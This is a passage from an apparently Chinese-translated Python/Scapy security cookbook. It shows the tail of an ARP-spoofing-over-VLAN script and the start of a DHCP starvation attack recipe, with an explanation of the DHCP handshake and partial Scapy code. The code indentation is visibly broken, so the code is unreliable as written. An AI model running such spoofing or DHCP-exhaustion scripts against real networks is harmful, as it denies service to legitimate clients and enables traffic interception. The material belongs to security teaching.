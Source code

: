 ```py
try:
    while True:
       sendp(packet, iface=iface)
         time.sleep(10)
  except KeyboardInterrupt:
      print("Exiting.. ")
      sys.exit(0)  
```

1.  以所需的权限运行脚本：

```py
sudo python3 arp-spoofing-over-vlan.py  
```

# DHCP 饥饿

DHCP 是帮助为 LAN 分配客户端 IP 地址的协议。分配 DHCP 的过程包括四个步骤--DHCPDiscover、DHCPOffer、DHCPRequest 和 DHCP ACK。

DHCPDiscover 是客户端在 LAN 中广播以查找可以为客户端提供 IP 的 DHCP 服务器的第一步。然后服务器将以单播 DHCPOffer 响应，其中提供可能的 IP。然后，客户端将向所有网络广播 DHCPRequest 与 IP，最后服务器将以 DHCP ACK 或 DHCP NAK 响应。ACK 表示成功的 DHCP 过程，而 NAK 表示 IP 不可用：

![](img/00060.jpeg)

DHCP 服务器将 IP 信息存储到 MAC 绑定。如果我们从 DHCP 服务器请求太多 IP，其他合法客户端将无法获得 IP 连接。这被称为**DHCP 饥饿攻击**。在这个示例中，我们将攻击这个过程的第三步。发送 DHCP 请求后，服务器将为客户端分配请求的 IP。这可以用来攻击特定范围的 IP。

# 如何做...

让我们尝试编写一个脚本来使网络中的 DHCP 饥饿：

1.  创建一个`dhcp-starvation.py`文件并在您的编辑器中打开。

1.  导入所需的模块：

```py
from scapy.all import *
from time import sleep
from threading import Thread 
```

我们需要`Scapy`来制作数据包，并且需要`threading`模块来执行脚本的线程化

1.  现在，定义变量：

```py
mac = [""]
ip = []  
```

1.  现在我们可以定义回调函数来处理捕获的 DHCP 数据包：

```py
def callback_dhcp_handle(pkt):
    if pkt.haslayer(DHCP):
       if pkt[DHCP].options[0][1]==5 and pkt[IP].dst != "192.168.1.38":
          ip.append(pkt[IP].dst)
             print (str(pkt[IP].dst)+" registered")
          elif pkt[DHCP].options[0][1]==6:
              print ("NAK received")  
```
